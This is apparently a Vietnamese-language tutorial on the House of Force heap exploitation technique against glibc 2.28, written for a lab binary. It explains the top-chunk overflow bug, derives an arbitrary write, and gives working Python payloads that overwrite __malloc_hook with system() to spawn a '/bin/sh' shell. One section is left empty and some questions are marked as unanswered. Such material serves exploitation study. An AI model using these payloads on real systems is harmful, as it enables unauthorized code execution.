








# First Lesson: `House-of-force`
>Glibc ver: 2.28
Trong bài viết này, mình sẽ giải thích những vấn đề bao gồm:

- Fastbins(2.28) check những gì?

- Bug ở đâu?

- Làm sao để ta chuyển bug đó thành 1 primitive arbitary write?

- Nếu như chúng ta đã có 1 primitive mạnh, ta nên ghi đè giá trị quan trọng nào để `drop the shell`?

### Fastbins(2.28) check những gì?


### Bug Class - Heap OverFlow

- I/O cơ bản của chương trình:
 ta có thể malloc 1 giá trị bất kỳ, chương trình dùng size đó dùng để chứa cả metadata và user-data, giá trị này bắt buộc phải lớn hơn hoặc bằng 0x20, nhỏ hơn giá trị mà top_chunk đang chứa.

- Nếu như ta claim size chúng ta nhập vào nhỏ hơn so với input của chúng ta nhập vào, chúng ta nhận thấy input của ta đã ghi đè vào những giá trị quan trọng trong chương trình... Và một trong những giá trị quan trọng nhất trong heap layout chính là top chunk, hay chính là phần vùng nhớ còn lại mà heap chưa sử dụng. Vì vậy, nếu ta ghi đè vào giá trị này, ta có thể khiến chương trình "hiểu nhầm rằng vùng nhớ heap rất lớn" dẫn tới `malloc` có thể ghi đè lên những segment quan trọng khác.

### Primitive Discovery

- Vậy làm sao từ bug này, ta có thể chuyển nó thành 1 primitive mạnh?

- Tạm bỏ qua việc khai thác lỗ hổng, ta tập trung vào việc chứng minh rằng bug này có thể thực hiện được arbitary write và thử sử dụng nó để ghi đè giá trị `target` ở `0x602010`.





- Đầu tiên, ta ghi đè top chunk bằng 1 giá trị cực lớn(ví dụ 0xffffffffffffffff)





- Từ đây, ta có thể khiến chương trình nghĩ rằng heap chiếm 1 bộ nhớ rất lớn, từ đó ta có thể ghi đè bất kỳ địa chỉ nào, kể cả những địa chỉ quan trọng, khi sử dụng lệnh `vis` trong pwndbg, ta biết rằng chương trình đã coi giá trị cực lớn này như 1 top chunk hợp lệ:





- Nhưng địa chỉ của heap là `0x603000` trong khi địa chỉ của target là `602010`, vậy làm sao 1 buffer ở địa chỉ cao hơn có thể ghi đè được địa chỉ thấp hơn?
(Lần sau cần phải trả lời câu hỏi)

Ta có công thức:

```python
def delta(x, y):
    return (0xffffffffffffffff - x) + y
```




- Tại sao lại là distance giữa heap+0x20 và target - 0x20?

- Trước hết, ta phải hiểu rằng ta sẽ tính distance từ chunk tiếp theo tới địa chỉ cần ghi đè, chunk tiếp theo chính là bắt đầu từ top chunk, chính là chunk hiện tại + 0x20:





- Để hiểu rõ hơn, ta cần debug cụ thể, có thể thấy, sau khi ta malloc 1 chunk cực lớn, hiện tượng này đã xảy ra:




size của chunk tiếp theo, giờ chứa khoảng cách từ chunk hiện tại tới target-0x20, chính là 0xffffffffffffefe1, có thể thấy, ta đã thu hẹp khoảng cách, và giờ đây, chunk tiếp theo mà ta có thể malloc để trực tiếp ghi đè chính là target:





cuối cùng là ghi đè giá trị target:





payload cuối chứng minh primitive cuối:

```python
# =============================================================================

# Request a small chunk to overflow from.
# Fill the chunk's user data with garbage then overwrite the top chunk's size field with a large value.
malloc(24, b"Y"*24 + p64(0xffffffffffffffff))

# Make a very large request that spans the gap between the top chunk and the target data.
# The chunk allocated to service this request will wrap around the VA space.
malloc(delta((heap + 0x20), (elf.sym.target - 0x20)), b"Y")

# Request another chunk; the first qword of its user data overlaps the target data.
malloc(24, b"Much win")

# =============================================================================
```
### Exploitation


payload cuối cùng:

```python
# Request a chunk; overflow its user data and overwrite the top chunk's size field with a large value.
# Write a "/bin/sh" string here if not using the one in libc.
malloc(24, b"/bin/sh\0" + b"Y"*16 + p64(0xfffffffffffffff1))

# Make a very large request that spans the gap between the top chunk and the malloc hook.
# Target the malloc hook because the designer can't explicitly call free().
malloc((libc.sym.__malloc_hook - 0x20) - (heap + 0x20), b"Y")

# The next chunk to be requested overlaps the malloc hook; overwrite it with the address of system().
malloc(24, p64(libc.sym.system))


# ---  OPTION 1  ---

# Call malloc() with the address of the string "/bin/sh" in libc as its argument to trigger system("/bin/sh").
malloc(next(libc.search(b"/bin/sh")), b"")


# ---  OPTION 2  ---

# Alternatively, call malloc() with the address of a "/bin/sh" string on the heap as its argument.
#malloc(heap + 0x10, b"")
```


